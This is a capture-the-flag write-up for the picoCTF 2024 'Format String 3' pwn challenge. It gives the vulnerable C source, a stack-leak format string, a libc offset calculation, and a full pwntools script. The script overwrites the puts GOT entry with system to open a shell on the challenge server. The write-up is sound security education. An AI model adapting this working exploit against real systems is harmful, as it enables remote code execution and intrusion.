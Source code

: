 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 3
date: '2024-05-03'
tags: ['ctf', 'pwn', 'picoctf', 'fmt', 'got-overwrite']
draft: false
summary: Overwriting GOT by exploiting the Format String Bug to make a system call for a shell. My first GOT overwrite solve.
---
```


## Challenge Description

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-1.png)

## Solution

Following files were provided:

```
format-string-3
format-string-3.c
libc.so.6
ld-linux-x86-64.so.2
```

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism.

Source code provided to us:

```c:format-string-3.c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();

	fgets(buf, 1024, stdin);
	printf(buf);

	puts(normal_string);

	return 0;
}
```

The most interesting part in this code is:

```c
	puts(normal_string);
```

At the end of the main function, the parameter passed to the `puts` function (`normal_string`) contains the content "/bin/sh". If we can change this `puts` function into a system call, we can spawn a shell. This can be achieved by overwriting entries in the Global Offset Table (GOT), which is a table inside the binary that stores the memory addresses of different library calls. Let's take a look at it:

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-2.png)

To overwrite GOT entry, we need to find the offset of our input string on the stack, offset of `setvbuf` from the libc base to calculate address of libc base (as the setvbuf is given).

First, lets find out the starting index, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

Here I can see that my offset is `38`:

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-3.png)

Now, as the address of `setvbuf` is given, we only need to calcluate the address of libc base. For that, I need to know the offset of setvbuf from the libc base. It can be found using `objdump` on the binary:

```bash:objdump-command
objdump -T ./libc.so.6 | grep "setvbuf"
```

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-4.png)

This is how libc base address will be calculated:

```python
libc.address = <leaked_setvbuf_address> - 0x000000000007a3f0
```

For creating the payload, I took help from a Guide on **Format String Bug** written by [TheFlash2k](https://www.theflash2k.me/about).

He has also explain how to overwrite entries on the GOT. **[[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#overwriting-entries-on-the-global-offset-table)]**

So the final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

exe = "./format-string-3"
elf = context.binary = ELF(exe)
libc = ELF("./libc.so.6")

#io = process()
io = remote("rhea.picoctf.net", 52286)

if args.GDB: gdb.attach(io, "b *main+127") # gdb attachment

start = 38

io.recvuntil(b'setvbuf in libc: ')
leak = int(io.recvline().strip(), 16)
print("setvbuf @ %#x" % leak)

libc.address = leak - 0x000000000007a3f0
print("libc @ %#x" % libc.address)

payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system})

io.sendline(payload)
io.interactive()
```

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-3/fmt3-flag.png)

> _That’s it for today’s blog, take Care_ 😃

